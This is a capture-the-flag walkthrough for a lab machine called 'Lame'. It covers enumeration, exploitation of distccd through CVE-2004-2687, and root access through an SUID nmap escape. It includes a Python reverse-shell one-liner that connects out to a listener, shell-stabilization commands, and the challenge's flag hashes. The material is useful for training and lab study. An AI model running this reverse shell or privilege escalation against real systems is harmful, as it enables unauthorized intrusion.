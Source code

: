 ```yaml
---
sticker: emoji//1f613
---
```


# LAME

## ENUMERATION

***

### OPEN PORTS

***

| PORT | SERVICE |
| ---- | ------- |
| 22   | SSH     |
| 139  | SMB     |
| 445  | SMB     |
| 3632 | distccd |

## RECONNAISSANCE

***

FTP anonymous login is enabled, let's check it out:

![](gitbook/cybersecurity/images/Pasted%20image%2020250402152900.png)

Nothing in here, `smb` anonymous login is not enabled unfortunately, let's keep on going, if we remember the scan, we got the following on port `3632`:

```
PORT     STATE SERVICE VERSION
3632/tcp open  distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```

We got something called `distccd`, `distcc` is a tool designed to distribute compilation of C/C++/Objective-C code across multiple machines on a network. It speeds up large builds by parallelizing the workload.

Since we got `distccd v1`, we can search for an exploit regarding that version:

![](gitbook/cybersecurity/images/Pasted%20image%2020250402153430.png)

## EXPLOITATION

***

This is a pretty old CVE, we are facing `CVE-2004-2687`, we can search for an exploit in GitHub:

![](gitbook/cybersecurity/images/Pasted%20image%2020250402153623.png)

Link: https://github.com/angelpimentell/distcc\_cve\_2004-2687\_exploit

If we use the exploit, we can see this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250402153655.png)

We can get ourselves an interactive shell:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.239",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

If we check up our listener:

![](gitbook/cybersecurity/images/Pasted%20image%2020250402154059.png)

Let's proceed with privesc.

## PRIVILEGE ESCALATION

***

First step is to stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

We can read `user.txt` now:

```
daemon@lame:/$ cat /home/makis/user.txt
6c8d8478b697ee1e975fb840878c905a
```

Let's use linpeas for a way to get into root:

![](gitbook/cybersecurity/images/Pasted%20image%2020250402154841.png)

We got `nmap` binary set with a `4000 SUID`, let's check `gtfobins`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250402155155.png)

So, we need to do the following in order to get root:

```
/usr/bin/nmap --interactive
!sh
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250402155218.png)

We can finally read `root.txt`:

```
sh-3.2# cat /root/root.txt
259db45cfc8e1723f21fb0387f48ff5f
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250402155300.png)
